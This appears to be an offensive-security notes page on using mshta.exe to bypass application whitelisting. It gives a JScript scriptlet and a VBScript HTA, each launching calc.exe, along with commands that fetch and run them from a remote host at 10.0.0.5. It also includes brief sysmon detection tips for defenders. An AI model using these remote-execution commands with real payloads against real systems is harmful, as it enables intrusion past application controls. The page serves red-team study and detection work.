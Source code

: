 ```yaml
---
description: MSHTA code execution - bypass application whitelisting.
---
```


# MSHTA

## Execution

Writing a scriptlet file that will launch calc.exe when invoked:

{% code title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode %}

Invoking the scriptlet file hosted remotely:

{% code title="attacker@victim" %}
```csharp
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode %}

## Observations

As expected, calc.exe is spawned by mshta.exe. Worth noting that mhsta and cmd exit almost immediately after invoking the calc.exe:

![](../../.gitbook/assets/mshta-calc.png)

As a defender, look at sysmon logs for mshta establishing network connections:

![](<../../.gitbook/assets/mshta-connection (1).png>)

Also, suspicious commandlines:

![](../../.gitbook/assets/mshta-commandline.png)

## Bonus

The hta file can be invoked like so:

```csharp
mshta.exe http://10.0.0.5/m.hta
```

![](../../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../../.gitbook/assets/mshta-url.png)

{% code title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1170" %}

